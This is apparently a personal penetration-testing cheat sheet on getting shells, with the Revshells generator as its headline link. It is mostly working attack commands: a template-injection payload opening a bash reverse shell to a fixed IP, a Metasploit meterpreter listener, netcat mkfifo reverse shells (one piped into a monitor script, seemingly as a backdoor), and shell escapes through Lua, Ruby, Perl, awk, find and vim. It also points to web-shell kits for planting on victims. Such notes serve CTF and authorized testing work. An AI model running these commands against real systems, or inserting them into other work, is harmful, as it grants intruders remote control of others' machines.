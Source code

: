 
```embed
title: "Online - Reverse Shell Generator"
image: "https://user-images.githubusercontent.com/58673953/111243529-9d646f80-85d7-11eb-986c-9842747dc2e7.png"
description: "Online Reverse Shell generator with Local Storage functionality, URI & Base64 Encoding, MSFVenom Generator, and Raw Mode. Great for CTFs."
url: "https://www.revshells.com/"
```

```php
{{ ["bash -c 'exec bash -i >& /dev/tcp/10.10.239.163/4445 0>&1'", ""] | sort('passthru') }}
```

Start meterpreter listener Kali MSF
#rev_shell
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST
set LPORT

exploit
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.28 9001 >/tmp/f

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.28 9001  | tee -a monitor.sh

```

## OS Shells
#Helpful 
#### Lua To Shell

Spawning Interactive Shells

```shell
lua: os.execute('/bin/sh')
```


#### Ruby To Shell

Spawning Interactive Shells

```shell
ruby: exec "/bin/sh"
```

#### Perl To Shell

Spawning Interactive Shells

```shell
perl —e 'exec "/bin/sh";'
```

Spawning Interactive Shells

```shell
perl: exec "/bin/sh";
```

## /bin/sh -i

This command will execute the shell interpreter specified in the path in interactive mode (`-i`).

#### Interactive

Spawning Interactive Shells

```shell
/bin/sh -i
sh: no job control in this shell
sh-4.2$
```

#### AWK To Shell

Spawning Interactive Shells

```shell
awk 'BEGIN {system("/bin/sh")}'
```

#### Using Find For A Shell

Spawning Interactive Shells

```shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```
```shell
find . -exec /bin/sh \; -quit
```

## VIM

Yes, we can set the shell interpreter language from within the popular command-line-based text-editor `VIM`. This is a very niche situation we would find ourselves in to need to use this method, but it is good to know just in case.

#### Vim To Shell

Spawning Interactive Shells

```shell
vim -c ':!/bin/sh'
```

#### Vim Escape

Spawning Interactive Shells

```shell
vim
:set shell=/bin/sh
:shell
```

---
## Web Shells

---
#### Laudanum
Laudanum is a repository of ready-made files that can be used to inject onto a victim and receive back access via a reverse shell, run commands on the victim host right from the browser, and more.
#Helpful [[Web Basics]] [[File_Transfering]]
```shell
$ ls /usr/share/laudanum           
asp  aspx  cfm  helpers  jsp  php  wordpress
```

## Antak Webshell

Antak is a web shell built in ASP.Net included within the [Nishang project](https://github.com/samratashok/nishang). Nishang is an Offensive PowerShell toolset that can provide options for any portion of your pentest.
```bash
$ ls /usr/share/nishang 
```

